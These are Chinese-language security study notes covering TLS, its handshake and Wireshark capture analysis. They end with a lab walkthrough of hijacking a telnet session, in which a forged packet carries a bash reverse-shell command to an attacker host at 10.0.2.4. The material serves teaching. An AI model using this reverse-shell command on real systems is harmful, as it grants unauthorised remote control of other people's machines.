 ### Web安全性威胁对照表

![1704634437528](1704634437528.png)

> - [x] 👌web流量安全方法，即按照协议分层，各层安全网络协议有哪些？（图17.1TCP/IP协议栈中安全功能的相对位置）

### TCP/IP协议栈中安全功能的相对位置

![1704634608919](1704634608919.png)

### TLS体系结构

> - [x] 👌TLS体系结构、SSL/TLS提供哪些服务？SSL/TLS协议实现、记录协议

TLS为TCP提供了可靠的端到端的安全服务。TLS不是简单的单个协议而是两层协议。

![1704634930678](1704634930678.png)

> - [ ] 👌TLS的握手协议过程、基于wireshark的SSL/TLS数据包捕获结果分析（考试重点，尤其是握手协议过程，参见图17.6）

###  ✨握手协议过程

![image-20240107214547593](image-20240107214547593.png)

![1704635100704](1704635100704.png)

### ✨✨wireshark抓包实验

可以转这篇：[wireshark抓包实验](/posts/knowledge/review_notes/wireshark/)

#### 实际抓包截图分析

![image-20240107214735588](image-20240107214735588.png)

实际的场景：客户端（10.0.2.5） ， sever（10.0.2.6），Attacker （10.0.2.4）

客户端（10.0.2.5） telnet到sever（10.0.2.6）时的最后一个数据包，

下一数据就是伪造的数据包

![image-20240107214821535](image-20240107214821535.png)

攻击者伪造的数据包：冒充客户端（10.0.2.5） 发送telnet数据到sever（10.0.2.6），数据

内容是”/bin/bash -i > /dev/tcp/10.0.2.4/9090 0<&1 2>&1”

![image-20240107214843510](image-20240107214843510.png)

![image-20240107214853298](image-20240107214853298.png)

上图1为攻击的执行结果：可以看到攻击者ifconfig时的输出已经是10.0.2.6.

上图2为：攻击者发送的数据包格式
